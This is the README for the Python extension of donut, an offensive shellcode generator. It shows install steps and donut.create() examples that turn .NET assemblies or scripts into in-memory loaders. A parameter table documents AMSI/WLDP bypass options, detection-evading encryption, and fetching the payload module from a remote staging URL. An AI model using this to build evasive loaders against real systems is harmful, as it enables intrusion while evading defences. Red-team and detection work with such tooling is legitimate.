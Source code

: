 # Python Extension

A Python C extension is now available which allows you to dynamically generate donut shellcode in Python.

## Requirements

The extension has only been tested in Python 3.7, it shouldn't have any compatibility issues with older 3.X versions of Python.

It will ***not*** work in Python 2.x.

## Installing the Extension

(Once the extension has been published to PyPi)
```
pip3 install donut-shellcode
```

## Manually Compiling And Installing the Extension

```bash
git clone https://github.com/TheWover/donut && cd donut
pip3 install . # or python setup.py install
```

## Usage

The Python extension accepts the same parameters as the main donut executable.

Here's a minimalistic example of using the extension:

```python
import donut
shellcode = donut.create(file="naga.exe", params='https://172.16.164.1/')
```

The ```donut``` module exposes only one function ```create()```, which is used to generate shellcode and accepts both positional and keyword arguments.

The only required parameter the ```create()``` function needs is the ```file``` argument which accepts a path to the .NET EXE/DLL or VBS/JS file to turn into shellcode.

```python
import donut

shellcode = donut.create(
    file='naga.exe',         # .NET assembly, EXE, DLL, VBS, JS or XSL file to execute in-memory
    url='http://127.0.0.1',  # HTTP server that will host the donut module
    arch=1,                  # Target architecture : 1=x86, 2=amd64, 3=x86+amd64(default)
    bypass=3,                # Bypass AMSI/WLDP : 1=none, 2=abort on fail, 3=continue on fail.(default)
    cls='namespace.class',   # Optional class name.  (required for .NET DLL)
    method='method',         # Optional method or API name for DLL. (method is required for .NET DLL)
    params='arg1 arg2',      # Optional parameters or command line.
    runtime='version',       # CLR runtime version. MetaHeader used by default or v4.0.30319 if none available
    appdomain='name'         # AppDomain name to create for .NET. Randomly generated by default.
)
```

## Keywords

The following table lists key words for the create method.

<table>
  <tr>
    <th>Keyword</th>
    <th>Type</th>
    <th>Description</th>
  </tr>
  <tr>
    <td>file</td>
    <td>String</td>
    <td>The path of file to execute in memory. VBS/JS/EXE/DLL files are supported.</td>
  </tr>
  <tr>
    <td>arch</td>
    <td>Integer</td>
    <td>Indicates the type of assembly code to generate. 1=<code>DONUT_ARCH_X86</code> and 2=<code>DONUT_ARCH_X64</code> are self-explanatory. 3=<code>DONUT_ARCH_X84</code> indicates dual-mode that combines shellcode for both X86 and AMD64. ARM64 will be supported at some point.</td>
  </tr>
  <tr>
    <td>bypass</td>
    <td>Integer</td>
    <td>Specifies behaviour of the code responsible for bypassing AMSI and WLDP. The current options are 1=<code>DONUT_BYPASS_NONE</code> which indicates that no attempt be made to disable AMSI or WLDP. 2=<code>DONUT_BYPASS_ABORT</code> indicates that failure to disable should result in aborting execution of the module. 3=<code>DONUT_BYPASS_CONTINUE</code> indicates that even if AMSI/WDLP bypasses fail, the shellcode will continue with execution.</td>
  </tr>
  <tr>
    <td>compress</td>
    <td>Integer</td>
    <td>Indicates if the input file should be compressed. Available engines are 1=<code>DONUT_COMPRESS_NONE</code>, 2=<code>DONUT_COMPRESS_LZNT1</code>, 3=<code>DONUT_COMPRESS_XPRESS</code> and 4=<code>DONUT_COMPRESS_XPRESS_HUFF</code>. This option uses the <a href="https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-rtlcompressbuffer">RtlCompressBuffer</a> API for compression and is only available on Windows builds.</td>
  </tr>
  <tr>
    <td>entropy</td>
    <td>Integer</td>
    <td>Indicates whether Donut should use entropy and/or encryption for the loader to help evade detection. Available options are 1=<code>DONUT_ENTROPY_NONE</code>, 2=<code>DONUT_ENTROPY_RANDOM</code>, which generates random strings and 3=<code>DONUT_ENTROPY_DEFAULT</code> that combines <code>DONUT_ENTROPY_RANDOM</code> with symmetric encryption.</td>
  </tr>
  <tr>
    <td>format</td>
    <td>Integer</td>
    <td>Specifies the output format for the shellcode loader. Supported formats are 1=<code>DONUT_FORMAT_BINARY</code>, 2=<code>DONUT_FORMAT_BASE64</code>, 3=<code>DONUT_FORMAT_RUBY</code>, 4=<code>DONUT_FORMAT_C</code>, 5=<code>DONUT_FORMAT_PYTHON</code>, 6=<code>DONUT_FORMAT_POWERSHELL</code>, 7=<code>DONUT_FORMAT_CSHARP</code> and 8=<code>DONUT_FORMAT_HEX</code>. On Windows, the base64 string is copied to the clipboard.</td>
  </tr>
  <tr>
    <td>exit_opt</td>
    <td>Integer</td>
    <td>When the shellcode ends, <code>RtlExitUserThread</code> is called, which is the default behaviour. Use 2=<code>DONUT_OPT_EXIT_PROCESS</code> to terminate the host process via the <code>RtlExitUserProcess</code> API. Use 3=<code>DONUT_OPT_EXIT_BLOCK</code> to not exit or cleanup and instead block indefinitely.</td>
  </tr>
  <tr>
    <td>thread</td>
    <td>Integer</td>
    <td>If the file is an unmanaged EXE, the loader will run the entrypoint as a thread. The loader also attempts to intercept calls to exit-related API stored in the Import Address Table by replacing those pointers with the address of the <code>RtlExitUserThread</code> API. However, hooking via IAT is generally unreliable and Donut may use code splicing / hooking in the future.</td>
  </tr>
  <tr>
    <td>oep</td>
    <td>String</td>
    <td>Tells the loader to create a new thread before continuing execution at the OEP provided by the user. Address should be in hexadecimal format.</td>
  </tr>
  <tr>
    <td>output</td>
    <td>String</td>
    <td>The path of where to save the shellcode/loader. Default is "loader.bin".</td>
  </tr>
  <tr>
    <td>runtime</td>
    <td>String</td>
    <td>The CLR runtime version to use for a .NET assembly. If none is provided, Donut will try reading from the PE's COM directory. If that fails, v4.0.30319 is used by default.</td>
  </tr>
  <tr>
    <td>appdomain</td>
    <td>String</td>
    <td>AppDomain name to create. If one is not specified by the caller, it will be generated randomly. If entropy is disabled, it will be set to "AAAAAAAA"</td>
  </tr>
  <tr>
    <td>cls</td>
    <td>String</td>
    <td>The class name with method to invoke. A namespace is optional. e.g: <var>namespace.class</td>
  </tr>
  <tr>
    <td>method</td>
    <td>String</td>
    <td>The method that will be invoked by the shellcode once a .NET assembly is loaded into memory. This also holds the name of an exported API if the module is an unmanaged DLL.</td>
  </tr>
  <tr>
    <td>params</td>
    <td>String</td>
    <td>List of parameters for the .NET method or DLL function. For unmanaged EXE files, a 4-byte string is generated randomly to act as the module name. If entropy is disabled, this will be "AAAA"</td>
  </tr>
  <tr>
    <td>unicode</td>
    <td>Integer</td>
    <td>By default, the <code>params</code> string is passed to an unmanaged DLL function as-is, in ANSI format. If set, param is converted to UNICODE.</td>
  </tr>
  <tr>
    <td>url or server</td>
    <td>String</td>
    <td>If the instance type is <code>DONUT_INSTANCE_HTTP</code>, this should contain the server and path of where module will be stored. e.g: https://www.staging-server.com/modules/</td>
  </tr>
  <tr>
    <td>modname</td>
    <td>String</td>
    <td>If the type is <code>DONUT_INSTANCE_HTTP</code>, this will contain the name of the module for where to save the contents of <code>mod</code> to disk. If none is provided by the user, it will be generated randomly. If entropy is disabled, it will be set to "AAAAAAAA"</td>
  </tr>
</table>

## Author

The Python extension was written by [@byt3bl33d3r](https://twitter.com/byt3bl33d3r)
